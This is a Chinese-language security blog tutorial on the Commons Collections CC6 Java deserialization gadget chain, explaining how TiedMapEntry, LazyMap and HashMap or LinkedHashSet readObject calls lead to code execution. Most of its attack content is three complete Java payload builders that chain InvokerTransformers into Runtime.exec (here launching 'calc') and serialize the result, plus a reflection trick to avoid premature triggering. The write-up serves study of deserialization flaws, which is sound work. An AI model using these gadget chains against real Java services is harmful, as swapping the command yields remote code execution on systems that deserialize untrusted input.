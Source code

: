 ```yaml
---
title: JAVA安全:CC6链
---
```


*作者：Narcher*	*时间：2024/3/17*	*分类：Vulnerability Analysis*

<!--more-->

## 前言

CC6这条链不受jdk版本限制，可谓非常好用。当初我接触到的第一个Java反序列化的题就是用CC6解决的，印象十分深刻。

之前我们学习了URLDNS这条链，实际上就是为了CC6做准备，因为二者有一些异曲同工之妙。



## 正文

我们先和往常一样，去看一下ysoserial中的CC6的流程：

<img src="JAVA%E5%AE%89%E5%85%A8CC6%E9%93%BE/1710674911617.png" alt="1710674911617" style="zoom: 67%;" />

可以发现这条链的后半部分和我们的CC1这条链的后半部分一模一样，前边则是由AnnotationInvocationHandler的invoke方法触发get方法修改成了TiedMapEntry类中的方法来触发。我们来调试一下看看。

### 1.TiedMapEntry部分

首先，前边一模一样，我就直接copy过来了，直接从TiedMapEntry的getValue()方法来看。

<img src="JAVA%E5%AE%89%E5%85%A8CC6%E9%93%BE/1710675220741.png" alt="1710675220741" style="zoom:67%;" />

实际上它的getValue中调用了map的get方法，而map是可控的，因此我们可以直接传入构造好的LazyMap，之后我们再看一下key，其实这个key我们是完全不用管的，因为CC1的时候已经讲过，ConstantTransformer无视了调用时的传参。

之后我们再看一下谁调用了getValue方法：

<img src="JAVA%E5%AE%89%E5%85%A8CC6%E9%93%BE/1710676136336.png" alt="1710676136336" style="zoom:67%;" />

实际上，还是这个类里边的hashCode方法。

### 2.HashMap部分

看见hashCode方法，我们又刚学完URLDNS这条链，实际上就很明白了，直接上HashMap梭哈（既能调用hashCode方法，又直接重写了readObject方法，简直完美）：

<img src="JAVA%E5%AE%89%E5%85%A8CC6%E9%93%BE/1710676313296.png" alt="1710676313296" style="zoom:67%;" />

HashMap的readObject方法中有这么一句，调用了hash方法，而hash方法内则又调用了hashCode:

<img src="JAVA%E5%AE%89%E5%85%A8CC6%E9%93%BE/1710676379690.png" alt="1710676379690" style="zoom:67%;" />

这样我们就只需要注意将key传参为我们想要利用的TiedMapEntry就好了。

### 3.构造链

我们把上边所说的按流程串起来：

```java
Transformer[] transformers=new Transformer[]{
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer("getDeclaredMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
        new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
        new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
};
ChainedTransformer chainedTransformer= new ChainedTransformer(transformers);
HashMap<Object,Object> map = new HashMap<>();
map.put("value","value");
LazyMap innerMap = (LazyMap) LazyMap.decorate(map, chainedTransformer);
TiedMapEntry tiedMapEntry = new TiedMapEntry(innerMap, "aaa");
HashMap<Object, Object> hashMap = new HashMap<>();
hashMap.put(tiedMapEntry, "bbb");
//序列化
ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("C:\\Users\\Narcher\\IdeaProjects\\CC6.txt"));
oos.writeObject(hashMap);
//反序列化
ObjectInputStream ois = new ObjectInputStream(new FileInputStream("C:\\Users\\Narcher\\IdeaProjects\\CC6.txt"));
ois.readObject();
```

看起来不错，但完成了吗？

实际上是没有的。我们前边学了URLDNS链可以知道，实际上在给hashMap put的时候就已经触发这条链了，这倒也没关系，只要反序列化的时候能再次触发一遍就好了，但实际上也不行，我们调试一下看看：

<img src="JAVA%E5%AE%89%E5%85%A8CC6%E9%93%BE/1710683200764.png" alt="1710683200764" style="zoom: 67%;" />

可以看到，根本没有进去，这其实是因为之前已经触发过一次，所以innermap中已经存在这个key了。

其实解决方法也很简单，直接在序列化之前删除掉这个key就好了。

直接：

```java
innerMap.remove("aaa");
```

。。。。。。。。。。。。。。。。。。。。。。。。。。。。

#### 疑惑

这里有一个小插曲，本人在复现的时候，并未像网上所说的在hashMap put的时候调用这条链，而是在

```java
TiedMapEntry tiedMapEntry = new TiedMapEntry(innerMap, "aaa");
```

这时候就已经触发这条链了。经调试，看起来像是在给key和map赋值的时候连着触发了三次（其实这也很奇怪，因为key居然没有存下来，而是在最后的时候存了下来，使得并没有在put方法中触发链子）。网上有师傅说是IDEA配置的问题，但经过测试，并非是IDEA调试导致的toString等一系列方法的触发。

<img src="JAVA%E5%AE%89%E5%85%A8CC6%E9%93%BE/1710683911222.png" alt="1710683911222" style="zoom:67%;" />

~~这个疑惑目前还未解决，但并不妨碍之后链子的触发。~~

已解决，ytgg也说是IDEA的配置问题，今早打开电脑重新试了一下就成功了，猜测是IDEA的缓存问题，怪事......

。。。。。。。。。。。。。。。。。。。。。。。。。。。。

再进入正文，我们不想在序列化之前触发这条链，那就需要改一下前边的流程，并在序列化前用反射给改回去，其实改的方法有很多，我们可以改tiedMapEntry，也可以改innermap，还可以改chainedTransformer。我在这里改了chainedTransformer：

```java
Transformer[] transformers=new Transformer[]{
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer("getDeclaredMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
        new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
        new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
};
ChainedTransformer chainedTransformer= new ChainedTransformer(transformers);
HashMap<Object,Object> map = new HashMap<>();
Map<Object,Object> innerMap = LazyMap.decorate(map, new ConstantTransformer(1));
TiedMapEntry tiedMapEntry = new TiedMapEntry(innerMap, "aaa");
HashMap<Object, Object> hashMap = new HashMap<>();
hashMap.put(tiedMapEntry, "bbb");
innerMap.remove("aaa");
Class c = LazyMap.class;
Field factoryField = c.getDeclaredField("factory");
factoryField.setAccessible(true);
factoryField.set(innerMap,chainedTransformer);
//序列化
ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("C:\\Users\\Narcher\\IdeaProjects\\CC6.txt"));
oos.writeObject(hashMap);
//反序列化
ObjectInputStream ois = new ObjectInputStream(new FileInputStream("C:\\Users\\Narcher\\IdeaProjects\\CC6.txt"));
ois.readObject();
```

这样一来，CC6就大功告成了。

## 后文

以上的CC6是白日梦组长讲的版本，和ysoserial中的CC6的差别为最终的readObject方法所属的类。上边讲的是用的HashMap的readObject，ysoserial中用的是HashSet的readObject。改起来也很简单，具体代码如下：

```java
Transformer[] transformers=new Transformer[]{
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer("getDeclaredMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
        new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
        new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"}),
};
ChainedTransformer chainedTransformer= new ChainedTransformer(transformers);
HashMap<Object,Object> map = new HashMap<>();
Map<Object,Object> innerMap = LazyMap.decorate(map, new ConstantTransformer(1));
TiedMapEntry tiedMapEntry = new TiedMapEntry(innerMap, "aaa");
LinkedHashSet set = new LinkedHashSet();
set.add(tiedMapEntry);
innerMap.remove("aaa");
Class c = LazyMap.class;
Field factoryField = c.getDeclaredField("factory");
factoryField.setAccessible(true);
factoryField.set(innerMap,chainedTransformer);
//序列化
ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("C:\\Users\\Narcher\\IdeaProjects\\CC6.txt"));
oos.writeObject(set);
//反序列化
ObjectInputStream ois = new ObjectInputStream(new FileInputStream("C:\\Users\\Narcher\\IdeaProjects\\CC6.txt"));
ois.readObject();
```
